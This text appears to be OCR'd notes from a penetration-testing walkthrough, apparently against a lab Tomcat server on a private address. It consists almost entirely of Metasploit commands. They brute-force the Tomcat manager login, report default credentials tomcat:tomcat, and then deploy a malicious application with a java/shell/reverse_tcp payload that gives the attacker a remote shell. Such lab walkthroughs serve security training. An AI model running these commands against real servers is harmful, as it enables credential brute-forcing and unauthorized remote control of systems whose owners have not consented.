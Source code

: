 we first try user:pass brute-force to get access.

msf > use auxiliary/scanner/http/tomcat_mgr_login 
msf auxiliary(scanner/http/tomcat_mgr_login) > set  RPORT 8180
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 192.168.0.117
msf auxiliary(scanner/http/tomcat_mgr_login) > exploit

we found tomcat:tomcat as administrator username and password.

now we try to get shell access. 

msf > use multi/http/tomcat_mgr_deploy
msf exploit(multi/http/tomcat_mgr_deploy) > set RPORT 8180
msf exploit(multi/http/tomcat_mgr_deploy) > set RHOST 192.168.0.117
msf exploit(multi/http/tomcat_mgr_deploy) > set httpusername tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set httppassword tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set payload java/shell/reverse_tcp 
msf exploit(multi/http/tomcat_mgr_deploy) > exploit

we now have shell access :) 

################################################################################################
